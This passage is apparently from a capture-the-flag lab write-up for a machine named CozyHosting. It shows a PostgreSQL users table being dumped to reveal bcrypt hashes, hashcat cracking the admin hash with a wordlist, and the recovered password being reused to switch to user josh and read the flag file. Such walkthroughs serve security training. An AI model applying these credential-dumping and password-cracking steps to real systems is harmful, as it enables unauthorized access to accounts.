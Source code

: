 ```

         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

(END)
```
We can look into them:
```
cozyhosting=# SELECT * FROM hosts;
SELECT * FROM hosts;
WARNING: terminal is not fully functional
Press RETURN to continue 

 id | username  |      hostname      
----+-----------+--------------------
  1 | kanderson | suspicious mcnulty
  5 | kanderson | boring mahavira
  6 | kanderson | stoic varahamihira
  7 | kanderson | awesome lalande
(4 rows)

(END)q
cozyhosting=# 
cozyhosting=# SELECT * FROM users;
SELECT * FROM users;
WARNING: terminal is not fully functional
Press RETURN to continue 

   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)

(END)
```
We now have two blowfish hashes. Let's run hashcat on them to find potential passwords:
```
$hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt
```
Very quickly, I got the password for the admin:
```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:m[...]d
```
We can now use this password to log as `josh`:
```
app@cozyhosting:/tmp/jar$ su josh     
su josh
Password: m[...]d

josh@cozyhosting:/tmp/jar$ cd 
cd 
josh@cozyhosting:~$ ls
ls
user.txt
josh@cozyhosting:~$ cat user.txt
cat user.txt
```
